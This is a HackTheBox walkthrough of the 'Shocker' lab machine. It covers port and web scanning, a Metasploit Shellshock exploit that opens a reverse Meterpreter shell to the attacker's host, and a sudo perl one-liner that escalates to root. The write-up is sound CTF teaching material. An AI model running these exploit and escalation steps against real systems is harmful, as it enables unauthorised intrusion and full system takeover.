 ```yaml
---
title: "HTB Walkthrough: Shocker"
date: 2023-03-04T22:46:30-04:00 
categories:
  - HackTheBox
header:
  teaser: /assets/images/HTB/shocker/Shocker.png
tags:
  - Easy
  - Linux Host

---
```


![Shocker Logo](/assets/images/HTB/shocker/Shocker.png)  

---

## Initial Scanning  


Let's run our port scanner to identify active TCP services.  

### TCP Port Scan  

Start a long scan:  

```bash
sudo nmap -sS -T5 -A -sV -p- 10.10.10.56 | tee nmap_full.log

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  

Also run a short one:  

```bash

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  

### Nikto Web Vulnerability Scan  

```bash
nikto -h 10.10.10.56:80 | tee nikto.log

---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: 89, size: 559ccac257884, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8673 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-03-04 05:38:19 (GMT-5) (709 seconds)
---------------------------------------------------------------------------
```  

### FFUF Directory Busting  

```bash
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.56/FUZZ | tee ffuf.log

                        [Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 78ms]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 76ms]
```  

## Web Enumeration  

Navigating to our browser, we discover a simple picture hosted on 10.10.10.56:  

![Browser Image](/assets/images/HTB/shocker/browser.png)  

After enumerating this for a minute, we don't really find anything. I downloaded the 'bug.jpg' image on the home page, and enumerated it with file, strings, and exiftool but didn't find anything.  

After I while I was suspicious that my ffuf command failed somehow and ran a dirbuster scan. This scan returned the /cgi-bin/ and I decided to run dirbuster again, looking for collow cgi-bin files with extensions '.cgi, .sh'  

![Dirbuster1](/assets/images/HTB/shocker/dirbuster.png)  

![Dirbuster](/assets/images/HTB/shocker/cgi-bin.png)  

With this, we find a bash script at /cgi-bin/user.sh 

## Initial Access  

This script is vulnerable to the popular Shellshock exploit. Let's run it with metasploit.  

```bash
msfconsole
search shellshock

 1   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
 
use 1
show options
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhosts 10.10.10.56
rhosts => 10.10.10.56  
                                                                                             
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set lport 8080                                              
lport => 8080   
                                                                                                    
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set lhost tun0                                              
lhost => 10.10.14.9    
                                                                                             
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /cgi-bin/user.sh
targeturi => /cgi-bin/user.sh

run
[*] Started reverse TCP handler on 10.10.14.9:8080 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (1017704 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.9:8080 -> 10.10.10.56:33052) at 2023-03-04 07:00:47 -0500

meterpreter > id
[-] Unknown command: id

meterpreter > shell
Process 11865 created.
Channel 2 created.
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```  

Grab the flag  

```bash
cd /home/shelly
cat user.txt
```  

## Privilege Escalation  

Always check sudo privileges on users after gaining access.  

```bash
sudo -l

Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```  

Doing a quick check on GTFOBins https://gtfobins.github.io/gtfobins/perl/ we find this "Sudo" privilege escalation.

```bash
$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# cat root.txt
cat root.txt
33a18a4c95d83e56b860480a4edaba87
```  

And there you have it!
